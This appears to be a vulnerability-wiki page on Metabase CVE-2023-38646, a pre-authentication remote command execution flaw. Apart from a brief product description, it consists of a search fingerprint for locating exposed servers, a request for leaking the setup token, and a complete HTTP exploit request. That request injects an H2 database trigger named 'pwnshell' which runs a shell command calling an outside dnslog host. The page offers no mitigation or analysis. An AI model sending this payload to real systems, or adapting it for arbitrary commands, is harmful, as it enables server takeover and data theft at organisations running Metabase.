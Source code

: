 # Metabase validate Remote Command Execution Vulnerability CVE-2023-38646

## Vulnerability Description

Metabase is an open source data analysis and visualization tool that helps users easily connect to a variety of data sources, including databases, cloud services, and APIs, and then use an intuitive interface for data query, analysis, and visualization. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Metabase</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Metabase"</span>

## Vulnerability reappears

Login page



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347-1913963.png)


Verify POC

```http
/api/session/properties
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1690629948797-84b0517c-1343-4295-8d06-db47be80b46e.png)

```http
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1690629991461-bfe3da60-a73a-4d73-b630-f125c3e536ff.png)